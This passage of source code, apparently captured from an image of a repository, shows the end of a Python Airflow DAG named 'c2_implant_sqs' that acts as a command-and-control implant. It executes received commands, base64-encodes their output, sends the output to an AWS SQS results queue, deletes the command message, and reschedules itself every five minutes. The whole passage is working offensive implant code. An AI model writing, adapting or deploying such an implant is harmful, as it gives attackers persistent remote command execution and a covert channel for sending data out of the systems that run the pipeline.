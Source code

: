 ```
            stderr = process.stderr
            return_code = process.returncode
            print(f"C2 Implant: Command executed with return code {return_code}")

        except Exception as e:
            stdout = ""
            stderr = f"Command execution failed: {str(e)}"
            return_code = -1

        # 3. Send results back
        result_payload = {
            "command": command,
            "return_code": return_code,
            # Encode to handle non-JSON-safe characters
            "stdout": base64.b64encode(stdout.encode('utf-8')).decode('ascii'),
            "stderr": base64.b64encode(stderr.encode('utf-8')).decode('ascii'),
        }

        sqs_client.send_message(
            QueueUrl=results_queue_url,
            MessageBody=json.dumps(result_payload)
        )
        print(f"C2 Implant: Sent results to {results_queue_url}")

        # 4. Delete the command message so it's not processed again
        sqs_client.delete_message(
            QueueUrl=command_queue_url,
            ReceiptHandle=receipt_handle
        )
        print("C2 Implant: Deleted command message.")

    except Exception as e:
        print(f"C2 Implant: An unexpected error occurred: {e}")


with DAG(
    dag_id="c2_implant_sqs",
    start_date=datetime(2023, 1, 1),
    # Run every 5 minutes to check for new commands
    schedule_interval=timedelta(minutes=5),
    catchup=False,
    tags=["security", "c2"],
) as dag:
    c2_task = PythonOperator(
        task_id="c2_implant_task",
        python_callable=c2_implant_task,
    )

```
